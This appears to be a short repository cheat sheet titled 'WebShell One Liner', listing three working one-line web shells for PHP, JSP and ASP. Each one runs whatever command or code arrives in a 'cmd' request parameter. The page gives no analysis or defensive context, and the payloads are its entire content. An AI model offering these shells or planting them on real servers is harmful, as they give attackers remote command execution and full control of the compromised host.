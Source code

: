 # WebShell One Liner  

php

`<?php system($_REQUEST["cmd"]); ?>`  

jsp  

`<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>`  

asp  

`<% eval request("cmd") %>`
